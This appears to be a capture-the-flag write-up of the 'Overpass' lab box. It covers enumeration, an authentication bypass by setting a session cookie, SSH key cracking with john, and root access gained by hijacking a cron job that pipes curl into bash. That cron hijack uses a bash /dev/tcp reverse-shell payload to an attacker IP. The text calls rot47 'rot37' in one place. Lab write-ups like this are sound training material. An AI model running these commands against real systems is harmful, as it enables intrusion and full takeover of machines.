

Target: 10.10.37.241 

## Enumeration:

nmap
```
$ sudo nmap -sC -sV 10.10.37.241 

Nmap scan report for 10.10.37.241
Host is up (0.41s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 37:96:85:98:d1:00:9c:14:63:d9:b0:34:75:b1:f9:57 (RSA)
|   256 53:75:fa:c0:65:da:dd:b1:e8:dd:40:b8:f6:82:39:24 (ECDSA)
|_  256 1c:4a:da:1f:36:54:6d:a6:c6:17:00:27:2e:67:75:9c (ED25519)
80/tcp open  http    Golang net/http server (Go-IPFS json-rpc or InfluxDB API)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

ffuf
```
$ ffuf -w /usr/share/dirbuster/wordlists/directory-list-2.3-small.txt -u http://10.10.37.241/FUZZ  

img                     [Status: 301, Size: 0, Words: 1, Lines: 1]
downloads               [Status: 301, Size: 0, Words: 1, Lines: 1]
aboutus                 [Status: 301, Size: 0, Words: 1, Lines: 1]
admin                   [Status: 301, Size: 42, Words: 3, Lines: 3]
css                     [Status: 301, Size: 0, Words: 1, Lines: 1]
```

checking index


checking /downloads



viewing source code of overpass.go
```
cat overpass.go

<snip>
//Secure encryption algorithm from https://socketloop.com/tutorials/golang-rotate-47-caesar-cipher-by-47-characters
<snip>
```

overpass uses rot47 as the encryption method

checking /admin


inspecting login js code


```
async function login() {
    const usernameBox = document.querySelector("#username");
    const passwordBox = document.querySelector("#password");
    const loginStatus = document.querySelector("#loginStatus");
    loginStatus.textContent = ""
    const creds = { username: usernameBox.value, password: passwordBox.value }
    const response = await postData("/api/login", creds)
    const statusOrCookie = await response.text()
    if (statusOrCookie === "Incorrect credentials") {
        loginStatus.textContent = "Incorrect Credentials"
        passwordBox.value=""
    } else {
        Cookies.set("SessionToken",statusOrCookie)
        window.location = "/admin"
    }
}
```

### Findings:Looking for attack vectors

Exploting Broken Authentication in login.js (Cookie SessionTokon).


## Foothold:

setting cookie on console
```
Cookies.set("SessionToken",1)
```

checking /admin authenticated


making overpass_key
```
$ vim overpass_key

$ chmod 600 overpass_key
```

ssh2john
```
$ python ssh2john.py overpass_key > hash      
```

cracking passphrase with john
```
$ john --wordlist=/usr/share/wordlists/rockyou.txt hash    

Using default input encoding: UTF-8
Loaded 1 password hash (SSH [RSA/DSA/EC/OPENSSH (SSH private keys) 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 2 OpenMP threads
Note: This format may emit false positives, so it will keep trying even after
finding a possible candidate.
Press 'q' or Ctrl-C to abort, almost any other key for status
james13          (overpass_key)
1g 0:00:00:05 DONE (2021-05-18 04:25) 0.1879g/s 2695Kp/s 2695Kc/s 2695KC/sa6_123..*7¡Vamos!
Session completed
```

logging-in
```
$ ssh james@10.10.37.241 -i overpass_key

james@overpass-prod:~$ id

uid=1001(james) gid=1001(james) groups=1001(james)
```

```
james@overpass-prod:~$ cat user.txt

<redacted>
```

## Priv Escalations:

looking for suspiciuos file/s
```
james@overpass-prod:~$ ls -la

total 48
drwxr-xr-x 6 james james 4096 Jun 27  2020 .
drwxr-xr-x 4 root  root  4096 Jun 27  2020 ..
lrwxrwxrwx 1 james james    9 Jun 27  2020 .bash_history -> /dev/null
-rw-r--r-- 1 james james  220 Jun 27  2020 .bash_logout
-rw-r--r-- 1 james james 3771 Jun 27  2020 .bashrc
drwx------ 2 james james 4096 Jun 27  2020 .cache
drwx------ 3 james james 4096 Jun 27  2020 .gnupg
drwxrwxr-x 3 james james 4096 Jun 27  2020 .local
-rw-r--r-- 1 james james   49 Jun 27  2020 .overpass
-rw-r--r-- 1 james james  807 Jun 27  2020 .profile
drwx------ 2 james james 4096 Jun 27  2020 .ssh
-rw-rw-r-- 1 james james  438 Jun 27  2020 todo.txt
-rw-rw-r-- 1 james james   38 Jun 27  2020 user.txt

james@overpass-prod:~$ cat todo.txt

To Do:
> Update Overpass' Encryption, Muirland has been complaining that it's not strong enough
> Write down my password somewhere on a sticky note so that I don't forget it.
  Wait, we make a password manager. Why don't I just use that?
> Test Overpass for macOS, it builds fine but I'm not sure it actually works
> Ask Paradox how he got the automated build script working and where the builds go.
  They're not updating on the website

james@overpass-prod:~$ cat .overpass 

,LQ?2>6QiQ$JDE6>Q[QA2DDQiQD2J5C2H?=J:?8A:4EFC6QN.
````

decoding password (rot37)
```
,LQ?2>6QiQ$JDE6>Q[QA2DDQiQD2J5C2H?=J:?8A:4EFC6QN.

[{"name":"System","pass":"saydrawnlyingpicture"}]
```

enumeration using linpeas
```
./linpeas.sh

[+] Cron jobs
<snip>
* * * * * root curl overpass.thm/downloads/src/buildscript.sh | bash
<snip>
```

editiong /etc/hosts
```
vim /etc/hosts

<ip>	overpass.thm
```

preparing buildscript
```
$ mkdir downloads && cd downloads && mkdir src && cd src && touch buildscript.sh

$ vim buildscript.sh

bash -c 'exec bash -i &>/dev/tcp/<ip>/9001 <&1'
```

serving buildscript
```
$ sudo python3 -m http.server 80

Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

opening a nc listener on port 9001
```
$ nc -lnvp 9001
```

waiting for conjob
```
root@overpass-prod:~# id

uid=0(root) gid=0(root) groups=0(root)
```

```
root@overpass-prod:~# cat root.txt

<redacted>
```
